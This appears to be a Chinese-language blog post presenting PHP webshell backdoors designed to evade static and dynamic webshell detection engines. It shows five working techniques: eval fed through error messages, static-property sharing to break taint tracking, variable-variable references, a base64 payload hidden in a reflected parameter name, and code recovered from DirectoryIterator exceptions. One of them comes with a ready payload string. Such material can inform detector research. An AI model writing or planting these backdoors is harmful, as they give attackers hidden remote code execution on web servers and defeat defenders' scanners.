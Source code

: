 

```
<?php
if($_GET[j]>2){
    $a='sys'.$_GET[i];
    $a("ls");
}else{
     echo "hello";
}
```

如果代码中有什么错误或者描述并不准确的，可以加我的微信：qiye_hack, 与我私下交流, 感谢。

1. 报错方式：
```

$_GET[$_GET['aaa']];
$a= str_replace("Undefined index: ","",explode('|',error_get_last()["message"])[0]);
eval($a);
```
思路：error\_get\_last函数可以获取 上一次的错误信息，通过\$\_GET[\$\_GET['aaa']] 产生报错，通过报错信息将传入的变量进行间接传递交给eval执行。


2. 父子类数据共享：

```
<?php
	class A { static $a; }
	class B extends A {}
	A::$a = $_GET[0];
	eval(B::$a);
?>
```
思路：将传入变量的值交给父类，但是子类可以获取父类的值，从而打断污点传播。


3. unset绕过动态

```
<?php
function test(&$a){
    $a = $_GET["m"];
}
test(${$_GET["c"]});
eval($a);
?>
```

思路：

首先单独的eval($a)是不会告警的，这里通过一个双$$引用赋值间接控制$a变量，也就是必须传入特定的payload，动态才能正常的触发到恶意代码，但显然动态并没有那么智能，从而绕过了检测，payload为：c=a&m=system(ls)



4. 利用反射

```
<?php
function test($ZXZhbCgkX0dFVFsxXSk7){
}
$a = new ReflectionFunction($_GET["m"]);
eval(base64_decode($a->getParameters()[0]->name));

```

思路：
这是一个比较巧妙的反射利用，首先构造一个特殊的反射函数或者类，其中的某个名称或者变量是一个代码执行的payload，其次利用反射类ReflectionFunction获取自定义构造函数，如上例中的函数参数名称，之后再调用执行。这种绕过动态的基本原理与之前相似，也是必须要传入特定的payload才能成功触发代码执行。


5. 利用new特殊类绕过

```
<?php
try {
    new $_GET["c"]($_GET["m"]);
}catch (UnexpectedValueException $exception){
    eval(substr($exception->getMessage(),strlen('DirectoryIterator::__construct(')));
}
```

绕过原理：

```
首先测试到new $_GET["c"];并不会判断为恶意，然后我们就可以利用一些内置类进行构造，这里可以利用内置类DirectoryIterator构造报错UnexpectedValueException，然后捕获异常从而继续执行代码。
```